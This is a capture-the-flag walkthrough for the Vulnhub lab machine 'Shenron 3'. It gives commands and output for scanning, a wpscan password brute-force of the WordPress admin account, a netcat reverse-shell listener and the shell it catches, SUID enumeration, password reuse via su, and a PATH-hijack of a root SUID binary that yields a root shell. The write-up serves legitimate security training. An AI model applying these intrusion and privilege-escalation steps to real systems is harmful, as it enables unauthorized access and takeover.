 ```yaml
---
title: "Shenron 3 Vulnhub CTF Walkthrough"
---
```


nmap:
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.166
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 09:15 EDT
Nmap scan report for 192.168.56.166
Host is up (0.00034s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
{% endhighlight %}


gobuster:
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://shenron/ -q -x php,txt,html
/index.php            (Status: 301) [Size: 0] [--> http://shenron/]
/wp-content           (Status: 301) [Size: 307] [--> http://shenron/wp-content/]
/wp-login.php         (Status: 200) [Size: 2126]                                
/license.txt          (Status: 200) [Size: 19935]                               
/wp-includes          (Status: 301) [Size: 308] [--> http://shenron/wp-includes/]
/readme.html          (Status: 200) [Size: 7342]                                 
/wp-trackback.php     (Status: 200) [Size: 135]                                  
/wp-admin             (Status: 301) [Size: 305] [--> http://shenron/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                   
/wp-signup.php        (Status: 302) [Size: 0] [--> http://shenron/wp-login.php?action=register]
/server-status        (Status: 403) [Size: 272] 
{% endhighlight %}


{% highlight terminal %}


[!] Valid Combinations Found:
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://shenron/ -U admin -P /usr/share/wordlists/rockyou.txt

 | Username: admin, Password: iloverockyou
{% endhighlight %}

Setting up the reverse shell listener and getting low privilege shell:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs]
└─$ nc -nlvp 6666                  
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 192.168.56.166.
Ncat: Connection from 192.168.56.166:56354.
Linux shenron 5.4.0-71-generic #79-Ubuntu SMP Wed Mar 24 10:56:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 19:18:04 up 33 min,  0 users,  load average: 0.00, 0.48, 1.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

Using find to locate SUID binaries
{% highlight terminal %}
www-data@shenron:/$ find -perm -u=s -type f 2>/dev/null
find -perm -u=s -type f 2>/dev/null
./usr/sbin/pppd
./usr/bin/fusermount
./usr/bin/newgrp
./usr/bin/umount
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/chfn
./usr/bin/su
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/mount
./usr/bin/pkexec
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
{% endhighlight %}

Getting the first flag: 
{% highlight terminal %}
www-data@shenron:/home$ su shenron
su shenron
Password: iloverockyou

shenron@shenron:/home$ cd
cd
shenron@shenron:~$ ls
ls
local.txt  network
shenron@shenron:~$ cat local.txt
cat local.txt
a57e2ff676cd040d58b375f686c7cedc
shenron@shenron:~$
{% endhighlight %}

#### Exploiting the PATH variable 
The user shenron has an SUID binary in the home directory that runs as root. 

{% highlight terminal %}
shenron@shenron:~$ ls -asl
ls -asl
total 60
 4 drwx------ 3 shenron shenron  4096 Apr 20 20:07 .
 4 drwxr-xr-x 3 root    root     4096 Apr 15 18:41 ..
 4 -rw------- 1 shenron shenron    48 Apr 20 20:39 .bash_history
 4 -rwx------ 1 shenron shenron   220 Apr 15 18:41 .bash_logout
 4 -rwx------ 1 shenron shenron  3771 Apr 15 18:41 .bashrc
 4 drwx------ 2 shenron shenron  4096 Apr 15 18:49 .cache
 4 -rwx------ 1 shenron shenron    33 Apr 16 10:20 local.txt
20 -rwsr-xr-x 1 root    root    16712 Apr 15 21:58 network
 4 -rwx------ 1 shenron shenron   807 Apr 15 18:41 .profile
 4 -rw-rw-r-- 1 shenron shenron    75 Apr 20 19:50 .selected_editor
 0 -rwx------ 1 shenron shenron     0 Apr 15 18:49 .sudo_as_admin_successful
 4 -rw------- 1 shenron shenron  1477 Apr 20 19:51 .viminfo
{% endhighlight %}

By using `ltrace ./network` we can see the system function call `netstat -nlutp` 
which means that the binary will use the PATH variable to find netstat
in the `/bin` directory and execute it.

Firstly, let's create the file that will launch a shell and save it as `netstat`:
{% highlight terminal %}
shenron@shenron:/tmp$ echo "/bin/bash" > netstat
{% endhighlight %}

Make it executable:
{% highlight terminal %}
shenron@shenron:/tmp$ chmod 777 netstat
chmod 777 netstat
{% endhighlight %}

Exporting PATH 
{% highlight terminal %}
shenron@shenron:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
{% endhighlight %}

Running `network` 
{% highlight terminal %}
shenron@shenron:~$ ./network
./network
root@shenron:~# 
{% endhighlight %}

Getting the root flag:
{% highlight terminal %}
cat root.txt
                                                               
  mmmm  #                                                 mmmm 
 #"   " # mm    mmm   m mm    m mm   mmm   m mm          "   "#
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           mmm"
     "# #   #  #""""  #   #   #     #   #  #   #   """       "#
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         "mmm#"
                                                               
Your Root Flag Is Here :- a7ed78963dffd9450a34fcc4a0eecb98

Keep Supporting Me. ;-) 
{% endhighlight %}
